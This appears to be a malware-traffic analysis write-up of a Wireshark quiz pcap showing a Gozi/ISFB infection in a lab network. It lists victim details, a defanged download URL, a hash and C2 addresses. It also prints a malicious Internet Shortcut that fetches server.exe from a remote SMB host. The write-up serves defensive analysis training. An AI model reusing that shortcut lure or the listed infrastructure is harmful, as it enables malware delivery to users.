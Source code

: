 
This infection is based on previously reported [Gozi (ISFB/Ursnif) activity from March 6, 2023](https://github.com/pan-unit42/tweets/blob/master/2023-03-06-IOCs-for-Gozi-infection.txt). The pcap for this month’s Wireshark quiz is from an AD environment, and it contains real-world traffic from a simulated enterprise setting. Details of the local area network (LAN) from the pcap follow.


- LAN segment range: 172.16.1[.]0/24 (172.16.1[.]1 through 172.16.1[.]255)
-   Domain: pcapworkshop[.]net
-   Domain Controller IP address: 172.16.1[.]16
-   Domain Controller host name: PCAPWORKSHOP-DC
-   LAN segment gateway: 172.16.1[.]1
-   Land segment broadcast address: 172.16.1[.]255

---------------------



**Infection Time :** 2023-03-07 at 05:01:56
**Source-IP** : 172.16.1.137
**Mac** : 00:02:fb:34:b4:fa
**HostName** :  DESKTOP-3GJL3PV.local
**UserName** : sherita.kolb

-----------------------

## Malware

**Malicious-Url** : hxxp[://]unapromo[.]com/mise/Cliente[.]zip

**Malicious-IP** : 173[.]254[.]32[.]85

**FileName** : Cliente.zip

**SHA256** : 33db5b2a2cc592fd10c65ba38396e4c7574ad78e786d78e8a3acdc93a90c3209

------------------------------------


# Analysis

*The file mentioned is a Windows Internet Shortcut file. It is a file that contains a URL (Uniform Resource Locator) that points to a website or a file on your computer. The “.url” extension is used to indicate that it is an Internet Shortcut file.*


*The content of the file contains the following information:*

```Content
[InternetShortcut]
IconIndex=70
HotKey=0
IDList=
URL=file[://]46[.]8[.]19[.]32/mise/server.exe
IconFile=C:\Windows\system32\SHELL32.dll
[{000214A0-0000-0000-C000-000000000046}]
Prop3=19,9
```

*The “URL” field specifies the location of the file or website that the shortcut points to. In this case, it points to a file named “server.exe” located at “file://46[.]8[.]19[.]32/mise/”. [The other fields specify various properties of the shortcut such as the icon used for the shortcut and its location on your computer](https://learn.microsoft.com/en-us/windows-server/remote/remote-desktop-services/clients/remote-desktop-web-client-admin). However, After Investigation of the PCAP file shows that the IP 46[.]8[.]19[.]32 is a SMB server which have the server.exe binary : 

![[Screenshot_2023-05-06_00_01_31.png]]

*unfortunately, trying to export the server.exe binary will be out of reach because of the data benign transfer to the victime machine is not complete. so we cant relay on the binary file. *


![[Screenshot_2023-05-06_00_56_30.png]]

*However, after anlayzing the HTTP traffic shows the behaviour of the traffic of Gozi C2 server : 


![[Screenshot_2023-05-06_00_59_51.png]]

**[It uses various techniques such as HTTP POST requests, Linear Congruential Generator, and aPlib compression to communicate with its C2 server](https://www.blackhat.com/docs/eu-15/materials/eu-15-Bureau-Hiding-In-Plain-Sight-Advances-In-Malware-Covert-Communication-Channels.pdf)[2](https://www.blackhat.com/docs/eu-15/materials/eu-15-Bureau-Hiding-In-Plain-Sight-Advances-In-Malware-Covert-Communication-Channels.pdf). Ultimately, the goal of Gozi-ISFB malware is to gather confidential information from infected devices by connecting to C2 servers and installing additional malware modules on the network.**


-----------------

## C2 Address

- 173[.]254[.]32[.]85
- 62[.]173[.]140[.]103
- 62[.]173[.]138[.]138
- 62[.]173[.]149[.]243
- 62[.]173[.]140[.]94
- 31[.]41[.]44[.]60
- 46[.]8[.]19[.]233
- 5[.]44[.]45[.]201
- 89[.]116[.]236[.]41
- 62[.]173[.]140[.]76
- 31[.]41[.]44[.]49
- 23[.]77[.]213[.]161
- 8[.]253[.]198[.]120
- 46[.]8[.]19[.]86
- 8[.]238[.]136[.]254

